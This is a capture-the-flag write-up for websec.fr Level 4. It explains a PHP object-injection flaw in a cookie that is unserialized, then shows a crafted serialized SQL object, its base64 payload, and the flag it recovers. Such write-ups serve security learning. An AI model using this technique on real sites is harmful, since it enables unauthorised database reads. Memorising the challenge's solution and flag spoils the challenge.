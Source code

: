 # Level 4
## Description
Challenge URL: https://websec.fr/level04/index.php  

Since we're lazy, we take advantage of php's garbage collector to properly display query results.
We also do like to write neat OOP. You can get the sources [here](https://websec.fr/level04/source1.php) and [here](https://websec.fr/level04/source2.php). 

## Solution
### Initial observation
The first source:
```php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
```

The second source:
```php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

From these sources, we can see that the `leet_hax0r` cookie is an associative array with `ip` as a property. This array is then serialized and encoded in base64 before being transmitted to the client.

When the server receives a request, it decodes the `leet_hax0r` cookie value, unserializes it and stored in `$sess_data`. Then, it checks whether `$sess_data` is an array and its `ip`'s value is of the IP address of the server. If either is wrong, **CANT HACK US!!!** is returned. Also, if the `id` parameter is set and is of integer, it will perform a SQL query.

In the second source code, the interesting here is the `__destruct()` method because it will be called when a `SQL` object is deleted. In addition, the `username` column from the result of the SQL query will be echoed.

### Exploitation
From the above information, we can guess that this application is vulnerable to **object injection**.  
In order to execute an arbitrary SQL query, we need to craft ourselves an `SQL` object whose properties are similar to those of the `$sql` on the server.
```php
class SQL {
    public $query = '';
    public $conn;
}

$inj = new SQL();
```
As SQL is not an array, we completely bypass the first `if..else..` block:
```php
if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
    die('CANT HACK US!!!');
}
```

When giving `1` as the **User id**, we get **Username: flag**; therefore, we might want the `password` of this user.  
Our query would be
```sql
SELECT password FROM users WHERE username='flag';
```

However, only the column named `usernamed` is echoed back, we need an alias:
```sql
SELECT password as username FROM users WHERE username='flag';
```

Now, our `$inj` object would be:
```
$inj->query = "SELECT password as username FROM users WHERE username='flag';";
```

Let's serialize and encode this object:
```
php > $sql->query = "SELECT password as username FROM users WHERE username='flag';";
php > echo urlencode(base64_encode(serialize($sql)));
TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NjE6IlNFTEVDVCBwYXNzd29yZCBhcyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIHVzZXJuYW1lPSdmbGFnJzsiO3M6NDoiY29ubiI7Tjt9
```

Modify the `leet_hax0r` cookie value to our value.  

![image](https://user-images.githubusercontent.com/44528004/132871370-ff4b11c1-f9d4-41fe-9a12-62b43a5c71d4.png)

And got the result:  

![image](https://user-images.githubusercontent.com/44528004/132871429-b6e5279b-2545-4c27-97cc-0e4287c82801.png)
> Flag: `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`
